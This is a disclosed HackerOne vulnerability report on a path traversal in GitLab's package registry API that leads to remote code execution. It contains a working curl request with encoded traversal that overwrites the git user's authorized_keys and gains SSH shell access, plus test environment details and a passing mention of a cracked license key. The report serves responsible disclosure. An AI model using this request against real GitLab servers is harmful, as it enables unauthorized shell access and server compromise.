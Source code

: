 # Path traversal, to RCE

## Report Details
- **Report ID**: 733072
- **URL**: https://hackerone.com/reports/733072
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-11-09T12:03:21.882Z
- **Disclosed**: 2022-06-07T14:16:59.027Z

## Reporter
- **Username**: saltyyolk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
This one is similar to #732330 but much simpler.
A path traversal issue in GitLab package registry API allow an attacker to write any file at any location writable to user git in a GitLab server.

### Steps to reproduce

1. Enable package registry in your GitLab instance.
2. Create a project (package registry is enabled by default)
3. Create a private token to call the API
4. Send the following request

```
curl -H "Private-Token: $(cat token)" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub
```
Then run `ssh git@10.26.0.5` to enjoy a shell.

### Examples

{F630231}

In my setup, I did't expose the 22 port of GitLab docker container, so I logged in the server with its docker IP, 172.18.0.2. In case there's any misunderstandings.

#### Results of GitLab environment info

```
$ gitlab-rake gitlab:env:info

System information
System:		
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.6.3p62
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	3.2.12
Git Version:	2.22.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.4.2-ee
Revision:	a3170599aa2
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.9
URL:		http://10.26.0.5
HTTP Clone URL:	http://10.26.0.5/some-group/some-project.git
SSH Clone URL:	git@10.26.0.5:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	10.2.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

```
# my docker-compose.yml
version: '3'
services:
  web:
    image: 'gitlab/gitlab-ee:latest'
    restart: always
    hostname: 'localhost'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://10.26.0.5'
        gitlab_rails['packages_enabled'] = true
    ports:
      - '10.26.0.5:80:80'
  #    - '10.26.0.5:22:22'
    volumes:
      - './config:/etc/gitlab'
      - './logs:/var/log/gitlab'
      - './data:/var/opt/gitlab'
      - ./crack/pub.pem:/opt/gitlab/embedded/service/gitlab-rails/.license_encryption_key.pub:ro
```
Please forgive me to use a crack on my self hosted testing purpose GitLab EE instance :)

## Impact

This path traversal issue could be easily exploited by overwriting some critical files related to server access. In my example I use authorized_keys of git user to enable the shell access for the attacker.

## Attachments
- 2019-11-09-195607_1919x386_scrot.png
